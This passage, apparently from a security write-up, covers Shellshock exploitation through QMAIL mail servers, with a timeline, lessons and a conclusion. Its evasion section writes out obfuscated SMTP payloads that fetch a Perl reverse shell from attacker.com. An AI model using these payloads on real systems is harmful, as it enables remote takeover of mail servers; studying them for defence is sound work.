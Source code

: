 ### Shellshock Timeline

- **September 24, 2014**: CVE-2014-6271 disclosed
- **September 25, 2014**: Mass exploitation begins
- **September 26, 2014**: Additional variants discovered
- **October 2014**: QMAIL-specific exploitation techniques published

### Security Lessons

1. **Defense in Depth**: Single vulnerabilities can have cascading effects
2. **Input Validation**: Critical importance of validating all external inputs
3. **Attack Surface**: Understanding all system components and dependencies
4. **Rapid Response**: Need for immediate patching of critical vulnerabilities

## Advanced Exploitation Techniques

### Evasion Methods

**Payload Obfuscation:**
```bash
# Base64 encoding
MAIL FROM:<() { :;}; echo d2dldCBhdHRhY2tlci5jb206ODA4MC9yc2gucGVybA== | base64 -d | sh>

# Character encoding
MAIL FROM:<() { :;}; $(printf "\x77\x67\x65\x74") attacker.com:8080/rsh.perl>
```

**Timing Attacks:**
```bash
# Delayed execution
MAIL FROM:<() { :;}; sleep 300 && wget attacker.com:8080/rsh.perl>

# Conditional execution
MAIL FROM:<() { :;}; [ -f /usr/bin/wget ] && wget attacker.com:8080/rsh.perl>
```

## Conclusion

The Shellshock QMAIL exploitation technique demonstrates how seemingly unrelated vulnerabilities can combine to create severe security exposures. This attack vector highlights several critical security principles:

1. **Attack Surface Complexity**: Mail servers expose multiple attack vectors beyond traditional web applications
2. **Vulnerability Chaining**: Combining input validation flaws with system vulnerabilities
3. **Infrastructure Impact**: Email systems are critical infrastructure requiring enhanced protection
4. **Historical Relevance**: Understanding classic vulnerabilities informs modern security practices

This research contributed to improved understanding of Shellshock exploitation vectors and influenced mail server security configurations across the industry.

